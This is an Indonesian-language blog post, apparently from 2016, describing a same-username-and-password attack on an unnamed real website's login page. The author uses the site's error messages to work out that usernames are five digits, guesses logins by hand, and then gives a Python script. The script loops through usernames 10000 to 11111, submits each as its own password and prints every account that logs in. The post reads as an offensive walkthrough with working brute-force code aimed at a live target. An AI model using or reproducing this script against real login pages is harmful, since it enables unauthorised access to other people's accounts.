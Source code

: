```yaml
---
layout: post
title:  "User==Pass attack"
date:   2016-12-06 18:47:00 +0700
categories: same user pass attack
comments: false
---
```


Dictionary attack,  bruteforce attack, soceng serangan serangan yang sudah pada umum kalau hacker udah ga mampu lagi nyerang target dengan cara cara yang halus. Serangan ini seperti memaksa membuka pintu dengan 1000 kunci yang dicoba satu satu. ga efektif dan serangan ini biasanya tidak diperbolehkan untuk digunakan pada CTF ataupun Bug Bounty karena jenis lubang keamanan ini bagi para security engginer sangat tidak rasional dikarenakan serangan ini cukup membutuhkan "*insting*" yang beketergantungan dengan "*luck*"

> "I absolutely hates die" 

yap plural dari dadu dan juga kata kerja dari mati, membutuhkan keberuntungan untuk melakukan hal statis semacam brute force, dimana  penebakan pattern pattern digunakan.

artikel kali ini akan saya jelaskan bagaimana lemahnya internet dimana beberapa orang lebih senang menggunakan password yang sama dengan username. Contoh real kasus yang akan saya jelaskan kali ini dimana ada website yang menggunakan alert pada saat username ataupun password tidak cocok. 

![Fail attempt login](http://k1m0ch1.github.io/images/fail-attempt-1.png)

Yap, dengan cara menebak nebak memaksa dengan false attempt pada awalnya akan muncul informasi sederhana, next step adalah mencari tahu user ini mengandung huruf/ kata atau campur.

Ternyata setelah di tes jika kita menginputkan random 5 huruf akan tetap muncul error seperti di atas dan tetap bilang kalau user harus 5 digit.

ok cukup.. berarti 5 angka.

pada contoh kali ini saya tidak akan menggunakan tools bruteforce karena serangan ini cukup sederhana dikarenakan memanfaatkan password yang sama dengan username. next saya mencoba serangan dengan username *10001* sampai *10010* dengan password yang sama dengan username.. LETS START!!

![Kimochi ikeh](http://k1m0ch1.github.io/images/fail-attempt-2.png)

fast forward dan ternyata pada user *10005* berhasil dilakukan berikut juga dengan user *10007*

![haha](http://k1m0ch1.github.io/images/sucess-attempt-1.png)

next nya saya bikin script python sederhana buat post login dan get cookies di percantik dengan beautifulsoup4 saya looping dari user *10000* sampai dengan user *11111*

codenya seperti ini :

```python
from requests import session
from bs4 import BeautifulSoup

base = 10000
endbase = 11111
target = "http://site target/"
proc = "index.php?action=llogin"
a=0

for x in range(base, endbase):

	exp = str(x)

	payload = {
		'login' : 'login',
	    'username': exp,
	    'password': exp
	}

	with session() as c:
	    c.post('%s%s' % (target, proc), data=payload)
	    response = c.get('%s', target)
	    soup = BeautifulSoup(response.text, 'html.parser')
	    #print(response.headers)
	    #print(response.text)
	    parsingnyah = soup.select(".top-menu")
	    if len(parsingnyah) > 0 :
	    	parsingnyah = soup.select(".top-menu > table > tr > td > br")[0].encode('utf-8')[22:-140]
	    	print "[+] Success Login user %s = %s" % (exp,parsingnyah)
```
![haha](http://k1m0ch1.github.io/images/lul-script-1.png)
